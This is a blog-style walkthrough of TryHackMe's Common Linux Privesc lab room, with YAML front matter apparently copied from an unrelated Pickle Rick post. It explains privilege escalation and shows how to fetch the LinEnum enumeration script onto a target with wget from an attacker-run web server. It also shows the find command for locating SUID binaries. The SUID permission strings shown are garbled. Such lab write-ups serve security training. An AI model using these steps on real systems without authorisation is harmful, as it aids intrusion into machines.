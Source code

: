 ```yaml
---
title: TryHackMe - Common Linux Privesc
date: '2021-12-12'
thumb_img_alt: lorem-ipsum
content_img_alt: Icelandic horses
excerpt: Follow along with this "Easy" rated box on TryHackMe to save Pickle Rick.
seo:
  title: Pickle Rick Walkthrough - Easy
  description: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
  extra:
    - name: 'og:type'
      value: article
      keyName: property
    - name: 'og:title'
      value: Pickle Rick CTF Walkthrough - Easy
      keyName: property
    - name: 'og:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
      keyName: property
    - name: 'og:image'
      value: /images/o9pyhyU.jpg
      keyName: property
      relativeUrl: true
    - name: 'twitter:card'
      value: summary_large_image
    - name: 'twitter:title'
      value: Pickle Rick CTF Walkthrough - Easy
    - name: 'twitter:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
    - name: 'twitter:image'
      value: /images/o9pyhyU.jpg
      relativeUrl: true
layout: post
thumb_img_path: /images/o9pyhyU.jpg
content_img_path: /images/banner.png
---
```

TryHackMe - Common Linux Privesc (Privilege Escalation): <https://tryhackme.com/room/commonlinuxprivesc>

This box is listed as Easy .  It provides walk-throughs and practice of common linux privilege escalation vectors.  This will not be a walk-through of the machine, but instead a reiteration of the common privesc vectors taught and practiced in the room.

# | What is Privesc?|

Let's start by discussing what "privesc" is.  Essentially, privesc (privilege escalation) is leveraging access to a low pricilege account to move to a higer privilege account (eg user to root).  Privesc can occur in two directions: horizontal and vertical.  In horizontal privesc, access is gained to an account of the same privilege level. This can be beneficial to access private files or if the new user has SUIDs we can exploit.  In vertical privesc, access is gained to an account with more access to the system (admin / root).  Read through the provided information in each of the three tasks and complete each section.

# | ENUMERATION |

## LinEnum

LinEnum is a bash script which performs common commands related to privesc.  It can be downloaded from:

<https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh>

Two ways to get LinEnum onto the target machine:

First - start a python webserver from the directory with your copy of LinEnum.sh. (python3 -m http.server 8000).  Then, wget the file from the target machine (wget \[LOCAL_IP]:8000/LinEnum.sh).  After it has been transfered to the target machine, make the file executable (chmod +x LinEnum.sh).

Second - Provided you have the required permissions, copy the raw code and create a .sh file in vi/nano/etc and paste the code.  Make the file executable.

LinEnum can be run as \`./LinEnum.sh\`

![](/images/LinEnum-bf8e2df3.PNG)

LinEnum provides a lot of information.  Take the time to read the provided documentation and understand what gets returned.

# | ABUSING SUID/GUID FILES |

a SUID is a file (as everything in Linux is) which can be run as the owner regardless of the accessing user (in this case run as root).  These can be leveraged to get a shell and root access.  SUID permissions look like:

\`rws-rwx-rwx\`

whereas GUID permissions look like:

\`rwx-rws-rwx\`

These SUID/GUIDs are reported by LinEnum, but can be searched for manually using:

\`find / -perm -u=s -type f 2>/dev/null\`

\`find - search command

/ - search entire file system

\-perm - find specific permissions

\-u=s - any of the permission bits mode are set for the file

\-type f - only searches for files

2>/dev/null - sends errors to null where they're deleted\`

![](/images/SUID.PNG)
